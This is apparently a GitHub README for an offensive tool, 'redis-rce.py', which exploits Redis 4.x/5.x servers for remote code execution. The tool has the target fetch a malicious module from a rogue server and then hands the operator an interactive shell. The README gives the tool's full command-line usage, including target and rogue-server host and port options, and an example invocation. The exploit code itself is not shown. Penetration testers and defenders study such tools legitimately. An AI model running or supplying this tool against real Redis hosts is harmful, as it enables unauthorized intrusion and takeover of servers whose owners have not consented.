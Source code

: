 # Redis RCE

A exploit for Redis 4.x/5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

This repo is a modified version of <https://github.com/n0b0dyCN/redis-rogue-server> .
## Usage:

Compile exp.so from <https://github.com/RicterZ/RedisModules-ExecuteCommand>.


```
usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  -v, --verbose         show more info
```

## example:
```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f exp.so
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190708220258.png)

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!
